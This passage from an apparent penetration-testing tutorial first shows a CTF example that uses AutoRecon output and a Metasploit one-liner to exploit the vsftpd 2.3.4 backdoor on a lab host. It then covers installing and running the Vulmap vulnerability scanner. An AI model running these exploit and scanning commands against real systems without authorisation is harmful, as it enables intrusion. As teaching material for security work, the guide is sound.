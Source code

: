 3. **Quick Exploitation**:
   ```bash
   # Check VSFTPD version from AutoRecon output
   cat scans/10.10.10.15/ftp/vsftpd-version.txt
   
   # Target vulnerable VSFTPD server
   msfconsole -q -x "use exploit/unix/ftp/vsftpd_234_backdoor;
   set RHOSTS 10.10.10.15;
   run"
   ```

4. **Information Extraction**:
   - Used harvested service banners to identify exact software versions
   - Leveraged AutoRecon's comprehensive port scanning to find non-standard services
   - Discovered hidden services on high ports that other teams missed

This example demonstrates how AutoRecon's multi-threaded approach enables rapid discovery and exploitation, crucial for time-sensitive environments like CTF competitions.

## Vulmap: Vulnerability Scanner and Exploitation Tool

Vulmap is an open-source vulnerability scanner designed to automate the detection of vulnerabilities in web applications, systems, and networks. It can also facilitate exploitation once vulnerabilities are identified.

### Installation

```bash
# Clone the repository
git clone https://github.com/vulmon/Vulmap.git
cd Vulmap

# Install dependencies
pip3 install -r requirements.txt
```

### Basic Usage

```bash
# Scan a web application
python3 vulmap.py -u http://example.com

# Scan multiple targets
python3 vulmap.py -f targets.txt

# Scan with specific modules
python3 vulmap.py -u http://example.com -m struts2,weblogic,thinkphp
```

### Advanced Scanning Options

```bash
# Set custom HTTP headers
python3 vulmap.py -u http://example.com --headers "User-Agent: Custom" "Cookie: session=1234"

# Set proxy for scanning
python3 vulmap.py -u http://example.com --proxy http://127.0.0.1:8080

# Increase verbosity for debugging
python3 vulmap.py -u http://example.com -v
```
